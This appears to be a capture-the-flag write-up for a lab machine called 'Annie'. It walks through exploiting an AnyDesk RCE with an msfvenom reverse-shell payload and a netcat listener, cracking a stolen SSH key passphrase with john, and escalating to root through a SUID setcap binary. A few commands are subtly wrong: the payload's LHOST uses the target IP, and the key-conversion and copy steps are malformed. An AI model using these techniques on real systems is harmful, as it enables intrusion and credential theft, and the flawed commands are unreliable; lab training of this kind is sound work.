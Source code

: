 **Target: 10.10.90.114  Annie**

**Initial Access:**\
nmap -Pn 10.10.90.114 --min-rate=5000 -p- |grep -i open|awk -F '/' '{print $1}'|tr '\n' ',' \
open ports are: 22,7070

Let’s enumerate these ports further:\
nmap -Pn -p 22,7070 --min-rate=5000 -sC -sV -oN nmap.txt   10.10.90.114\
Output shows: port 22 is ssh, port 7070 shows:
![image](https://user-images.githubusercontent.com/93153300/197642654-bf2e7412-d22a-44b1-b855-8a77a5654e86.png)

It seems like a website, but when we navigate to the site it errors out.  However, the certificate name is interesting, AnyDesk Client.  Let’s check to see if AnyDesk has has any exploits, with command: searchsploit anydesk.  
![image](https://user-images.githubusercontent.com/93153300/197642638-4b913ad8-6ea3-49ee-9d21-492f958c74bd.png)

We got back 3 exploits.  Even though we don’t have the version for anydesk, we don’t have much else to enumerate, so one of the exploits is rce, we’ll start with that one.  Download it with searchsploit -m 49613.py.  

Open up the script in a text editor and change the ip address to  the target ip. \
Also, change the shellcode to your generated shellcode.\
Create shellcode with:  \
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.90.114  LPORT=443 -b "\x00\x25\x26" -e x86/shikata_ga_nai -f python -v shellcode\
Delete the current shellcode, and then paste the output shellcode we just generated. 

Open up netcat listener to catch the reverse shell: nc -lvnp 443\
The exploit is written in python2, so change to python 2 enivronment using venv: \
source venv/venv.python2.7/bin/activate\
Finally run the exploit: python 49613.py \
After a few seconds we get a shell on our netcat listener as annie.  \
We can read user.txt: cat /home/annie/user.txt
_________________________________________________
**Persistence:** \
Looking into annie’s home directory with ls -al, we find .ssh directory, cd to .ssh, and we find annie’s private ssh key.  We can use this key to ssh into annie.  \
Download id_rsa file to our pc.\
In order for the key to work we need to change the file permissions.  We will do this with command: chmod 600 id_rsa\
To ssh into the target use command: ssh -i id_rsa annie@10.10.90.114 \
Prompt asks us for a passphrase, so we will try to crack this passphrase with john.  Since we are dealing with ssh here, we will use ssh2john. 

First, convert the id_rsa private key we got from annie into a txt-format that john can use to crack the passphrase:   \
john id_rsa > john.txt\
Next, we will use john to crack the passphrase:\
john john.txt --wordlist=/usr/share/wordlists/rockyou.txt\
It worked, the passphrase is annie123

Now, we can use the private key id_rsa to ssh into annie.\
ssh -i id_rsa annie@10.10.90.114		→ when prompted, enter the passphrase\
We have shell as annie.
_________________________________________________________________________
**Privilege Escalation:**\
Check for suid: find / -perm /4000 2>/dev/null \
There’s an unusual suid found: \
-rwsr-xr-x 1 root root 10K Nov 16  2017 /sbin/setcap (Unknown SUID binary)

This gives us  the ability to set cap_setuid capability on other files.  We will use this to esacalate to root.\
First, copy python3 to annie’s home directory: cp /usr/bin/python3\
Next, give python3 cap_setuid: setcap cap_setuid+ep /home/annie/python3\
Check that it worked with command: getcap / -r 2>/dev/null\
This will show us all of our capabilities. \
The ouput shows python3 listed with a cap_setuid, so it worked.\
Finally run: ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'\
We are now root, can go to /root to get the flag.  \
![image](https://user-images.githubusercontent.com/93153300/197647483-b5c0b084-6772-42da-b76b-fa4e8234951e.png)
